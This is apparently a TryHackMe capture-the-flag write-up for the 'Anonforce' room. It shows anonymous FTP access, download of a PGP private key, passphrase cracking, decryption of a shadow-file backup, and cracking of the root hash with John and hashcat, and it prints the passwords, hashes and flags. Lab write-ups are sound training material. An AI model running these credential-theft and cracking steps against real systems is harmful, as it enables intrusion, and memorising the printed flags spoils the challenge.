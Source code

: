 ## Anonforce - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/bsidesgtanonforce)

**IP: 10.10.172.195**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation <br>

**Tools Used**: Nmap, John The Ripper

**Author**: <br>

mauzware aka mauzinho <br>
[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Start with Nmap scan
  ```
  nmap -sC -sV -T5 -p- 10.10.172.195 
  
  22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  21/tcp open  ftp     vsftpd 3.0.3
  | ftp-syst: 
  |   STAT: 
  | FTP server status:
  |      Connected to ::ffff:10.21.127.185
  |      Logged in as ftp
  |      TYPE: ASCII
  |      No session bandwidth limit
  |      Session timeout in seconds is 300
  |      Control connection is plain text
  |      Data connections will be plain text
  |      At session startup, client count was 1
  |      vsFTPd 3.0.3 - secure, fast, stable
  |_End of status
  | ftp-anon: Anonymous FTP login allowed (FTP code 230)
  | drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
  | drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
  | drwxr-xr-x   17 0        0            3700 Apr 30 12:01 dev
  | drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
  | drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
  | lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
  | lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
  | drwxr-xr-x   19 0        0            4096 Aug 11  2019 lib
  | drwxr-xr-x    2 0        0            4096 Aug 11  2019 lib64
  | drwx------    2 0        0           16384 Aug 11  2019 lost+found
  | drwxr-xr-x    4 0        0            4096 Aug 11  2019 media
  | drwxr-xr-x    2 0        0            4096 Feb 26  2019 mnt
  | drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread [NSE: writeable]
  | drwxr-xr-x    2 0        0            4096 Aug 11  2019 opt
  | dr-xr-xr-x   92 0        0               0 Apr 30 12:01 proc
  | drwx------    3 0        0            4096 Aug 11  2019 root
  | drwxr-xr-x   18 0        0             540 Apr 30 12:01 run
  | drwxr-xr-x    2 0        0           12288 Aug 11  2019 sbin
  | drwxr-xr-x    3 0        0            4096 Aug 11  2019 srv
  | dr-xr-xr-x   13 0        0               0 Apr 30 12:01 sys
  |_Only 20 shown. Use --script-args ftp-anon.maxlist=-1 to see all.
  ```
  
- `notread [NSE: writeable]` looks suspicious, also log in as Anonymous with FTP.

---

## 🧍 User Privilege Escalation

- You can get user flag after logging in with FTP
  ```
  ftp 10.10.172.195
  Anonymous
  no password
  ```
  
- After getting in, look a bit and you'll find the flag `606083fd33beb1284fc51f411a706af8`, I also downloaded it to my Kali.
  ```
  cd home
  cd melodias
  get user.txt

  cat user.txt
  606083fd33beb1284fc51f411a706af8
  ```
  
- Now moving to escalation for root flag.

---

## 👑 Root Privilege Escalation

- When you check `/notread` you'll find 2 files inside: `private.asc` and `backup.pgp`, download them both. `private.asc` is PGP Private Key and `backup.pgp` is encypted file you have to decrypt. Lets work on that!
  
- Will convert `private.asc` to hash and crack it with John and then I will use cracked passphrase to decrypt `backup.pgp`
  ```
  gpg2john private.asc > keyhash.txt
  
  john --wordlist=/rockyou.txt keyhash.txt
  xbox360          (anonforce) 
  
  gpg --import private.asc     
  gpg: /.gnupg/trustdb.gpg: trustdb created
  gpg: key B92CD1F280AD82C2: public key "anonforce <melodias@anonforce.nsa>" imported
  gpg: key B92CD1F280AD82C2: secret key imported
  gpg: key B92CD1F280AD82C2: "anonforce <melodias@anonforce.nsa>" not changed
  gpg: Total number processed: 2
  gpg:               imported: 1
  gpg:              unchanged: 1
  gpg:       secret keys read: 1
  gpg:   secret keys imported: 1
  ```
  
- Awesome, passphrase is `xbox360` use it for both import and decryption. Now let's decrypt `backup.pgp` and check the content.
  ```
  gpg --output decrypted.txt --decrypt backup.pgp 
  gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
  gpg: encrypted with 512-bit ELG key, ID AA6268D1E6612967, created 2019-08-12
        "anonforce <melodias@anonforce.nsa>"

  cat decrypted.txt
  root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
  daemon:*:17953:0:99999:7:::
  bin:*:17953:0:99999:7:::
  sys:*:17953:0:99999:7:::
  sync:*:17953:0:99999:7:::
  games:*:17953:0:99999:7:::
  man:*:17953:0:99999:7:::
  lp:*:17953:0:99999:7:::
  mail:*:17953:0:99999:7:::
  news:*:17953:0:99999:7:::
  uucp:*:17953:0:99999:7:::
  proxy:*:17953:0:99999:7:::
  www-data:*:17953:0:99999:7:::
  backup:*:17953:0:99999:7:::
  list:*:17953:0:99999:7:::
  irc:*:17953:0:99999:7:::
  gnats:*:17953:0:99999:7:::
  nobody:*:17953:0:99999:7:::
  systemd-timesync:*:17953:0:99999:7:::
  systemd-network:*:17953:0:99999:7:::
  systemd-resolve:*:17953:0:99999:7:::
  systemd-bus-proxy:*:17953:0:99999:7:::
  syslog:*:17953:0:99999:7:::
  _apt:*:17953:0:99999:7:::
  messagebus:*:18120:0:99999:7:::
  uuidd:*:18120:0:99999:7:::
  melodias:$1$xDhc6S6G$IQHUW5ZtMkBQ5pUMjEQtL1:18120:0:99999:7:::
  sshd:*:18120:0:99999:7:::
  ftp:*:18120:0:99999:7:::
  ```

- Before doing SSH first crack the root hash and that's it, you can log in with SSH as root.
  ```
  echo "$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0" > root.hash
  john --wordlist=/rockyou.txt root.hash
  hikari

  hashcat -m 1800 root.hash /rockyou.txt 
  $6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:hikari
  ```

- Let's get the flag, log in with SSH and `cat` the flag.
  ```
  ssh root@10.10.172.195
  hikari

  whoami
  root
  cat /root/root.txt
  f706456440c7af4187810c31c6cebdce
  ```
  
---

## 🏁 Flags

- **User Flag**: `606083fd33beb1284fc51f411a706af8`
- **Root Flag**: `f706456440c7af4187810c31c6cebdce`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Decrypting .pgp file?`

- What did I learn?
  `Just sharpening my skills.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
